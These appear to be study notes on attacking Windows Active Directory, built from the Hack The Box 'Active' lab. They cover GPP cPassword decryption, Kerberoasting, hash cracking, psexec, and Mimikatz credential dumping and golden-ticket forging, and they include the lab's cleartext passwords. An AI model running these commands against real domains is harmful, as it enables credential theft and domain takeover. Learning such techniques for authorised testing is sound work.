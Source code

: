 * GPP (Group Policy Preferences):

	- GPP allowed admins to create policies using embedded creds (cPassword) which got leaked; patched in MS14-025.
```
#after basic enumeration via nmap
#we get to know that it is domain controller

> smbclient -L \\\\10.10.10.100\\
#includes SYSVOL

> smbclient -L \\\\10.10.10.100\\Replication
#accessing an open share
#find Groups.xml, which includes CPassword

#in attacker machine
> gpp-decrypt <CPassword>
#gives password

#with username and password, we can use Kerberoasting
> GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
#gives service ticket hash

> hashcat -m 13100 hash.txt rockyou.txt
#cracks hash

> psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```


* Mimikatz:
```
#in victim machine
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords
#dump passwords

lsadump::sam

lsadump::lsa /patch
#dump lsa

#for golden ticket attacks
lsadump::lsa /inject /name:krbtgt
#copy the SID and NTLM from output

kerberos::golden /User:fakeAdministrator /domain:marvel.local /sid:<SID> /krbtgt:<NTLM hash> /id:500 /ptt
#to generate golden ticket and use pass-the-ticket

misc::cmd
#gets command prompt
#as Admin
```
